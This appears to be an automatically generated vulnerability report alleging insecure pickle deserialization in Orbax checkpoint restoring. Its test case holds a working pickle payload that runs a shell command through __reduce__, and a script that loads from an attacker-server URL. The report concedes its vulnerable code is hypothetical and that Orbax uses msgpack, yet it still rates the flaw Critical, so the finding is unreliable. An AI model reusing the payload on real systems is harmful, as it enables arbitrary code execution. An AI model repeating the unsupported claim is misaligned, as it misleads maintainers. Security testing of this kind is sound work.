 - Vulnerability Name: Insecure Deserialization in Orbax Checkpoint Loading
- Description:
    1. A malicious actor crafts a checkpoint file that exploits Python's pickle or similar deserialization mechanisms used by Orbax.
    2. The attacker hosts this malicious checkpoint file on a publicly accessible location or tricks the user into downloading it (e.g., via social engineering or compromised download links).
    3. A user, intending to restore a model, provides the path to this malicious checkpoint file to Orbax's checkpoint loading function (e.g., `orbax.checkpoint.CheckpointManager.restore()`).
    4. Orbax's checkpoint loading mechanism, without sufficient security measures, deserializes the malicious data.
    5. If the malicious checkpoint is crafted to execute arbitrary code during deserialization (e.g., through pickle exploits or other insecure deserialization practices), it will lead to arbitrary code execution on the user's machine when the checkpoint is loaded.
- Impact: Arbitrary code execution on the user's machine. This can lead to full system compromise, data exfiltration, or further attacks on internal networks.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations: None apparent from the provided files. The project description mentions focus on checkpointing and exporting utilities for JAX users, but no specific security measures are highlighted in the provided READMEs or Changelogs. The code analysis shows usage of `msgpack` which is generally safer than `pickle`, but the security depends on how it's used and if there are custom extensions involved.
- Missing Mitigations:
    - Input validation and sanitization of checkpoint files before deserialization.
    - Avoiding insecure deserialization methods like `pickle` for untrusted checkpoint files.
    - Implementing secure checkpoint loading mechanisms that prevent arbitrary code execution.
    - Content Security Policy (CSP) or similar mechanisms to restrict the capabilities of loaded checkpoints. (Note: CSP is more relevant to web applications, but the principle of least privilege applies here).
- Preconditions:
    1. User attempts to restore a model from a checkpoint file.
    2. The checkpoint file is maliciously crafted by an attacker.
    3. Orbax's checkpoint loading mechanism is vulnerable to insecure deserialization.
- Source Code Analysis:
    - The file `/code/checkpoint/orbax/checkpoint/_src/handlers/pytree_checkpoint_handler.py` is confirmed to be a key component in checkpoint loading, as indicated by the `restore` function. Further detailed code review within this file and related modules is essential to pinpoint the exact deserialization methods used.
    - The file `/code/checkpoint/orbax/checkpoint/_src/serialization/msgpack_utils.py` confirms the usage of "msgpack" for serialization. While `msgpack` is generally safer than `pickle`, potential vulnerabilities could still arise from improper usage, custom extensions, or vulnerabilities within the `msgpack` library itself. A thorough review of how `msgpack` is employed, especially concerning custom extensions or handling of untrusted data, is needed.
    - Files like `/code/checkpoint/orbax/checkpoint/_src/futures/future.py`, `/code/checkpoint/orbax/checkpoint/_src/checkpoint_managers/save_decision_policy.py`, `/code/checkpoint/orbax/checkpoint/_src/multihost/multihost.py`, `/code/checkpoint/orbax/checkpoint/_src/multihost/multislice.py`, and files under `/code/checkpoint/orbax/checkpoint/experimental/emergency/` primarily deal with checkpoint management, multihost synchronization, and experimental emergency checkpointing features. They don't directly reveal deserialization vulnerabilities but highlight the complexity of the checkpointing process, increasing the attack surface if deserialization is handled insecurely elsewhere.
    - Files in `/code/checkpoint/orbax/checkpoint/logging/`, `/code/checkpoint/orbax/checkpoint/metadata/`, `/code/checkpoint/orbax/checkpoint/testing/`, and `/code/checkpoint/orbax/checkpoint/experimental/v1/`, `/code/docs/` are related to logging, metadata handling, testing, experimental v1 API, and documentation respectively. They are less directly related to the deserialization vulnerability itself but are important for overall project understanding and security context.

    ```python
    # Example hypothetical vulnerable code in `orbax/checkpoint/_src/handlers/pytree_checkpoint_handler.py` (This is illustrative and not actual code from the project files):
    import pickle
    import orbax.checkpoint._src.path as path

    class PyTreeCheckpointHandler:
        ...
        def restore(self, directory: path.Path, args: RestoreArgs):
            ...
            with open(directory / 'checkpoint', 'rb') as f:
                # Vulnerable to pickle exploits if 'f' is a malicious file
                restored_pytree = pickle.load(f)
            ...
    ```
- Security Test Case:
    1. Create a malicious checkpoint file (e.g., `malicious_checkpoint`) using Python's `pickle` library that executes arbitrary code upon loading. This file will simulate a compromised checkpoint.
    ```python
    import pickle
    import os

    class RunCode(object):
        def __reduce__(self):
            return (os.system, ('touch /tmp/pwned',))

    malicious_data = {
        'vulnerable_object': RunCode()
    }
    with open('/tmp/malicious_checkpoint', 'wb') as f:
        pickle.dump(malicious_data, f)
    ```
    2. Host the malicious checkpoint file (`malicious_checkpoint`) in a publicly accessible location (e.g., a simple HTTP server or cloud storage).
    3. In a separate, safe testing environment where Orbax is installed, create a Python script that uses Orbax to restore from the malicious checkpoint URL.
    ```python
    import orbax.checkpoint
    import epath
    import os

    checkpoint_path = "http://<attacker-server>/malicious_checkpoint" # Replace with the actual URL
    try:
        # Attempt to restore from the malicious checkpoint
        checkpoint_manager = orbax.checkpoint.CheckpointManager(epath.Path("/tmp/test_restore"))
        restored_state = checkpoint_manager.restore(0, directory=checkpoint_path)
    except Exception as e:
        print(f"Attempted restore, exception: {e}")

    # Check if the exploit was successful (e.g., check if the `/tmp/pwned` file exists)
    if os.path.exists('/tmp/pwned'):
        print("Vulnerability Exploited: /tmp/pwned file created!")
    else:
        print("Vulnerability NOT Exploited.")
    ```
    4. Run the Python script.
    5. Observe if the `/tmp/pwned` file is created in the testing environment. If the file is created, it confirms arbitrary code execution, indicating a successful exploit. If Orbax has mitigations, the file should not be created, and the script should ideally throw a security-related exception or handle the malicious file safely without code execution.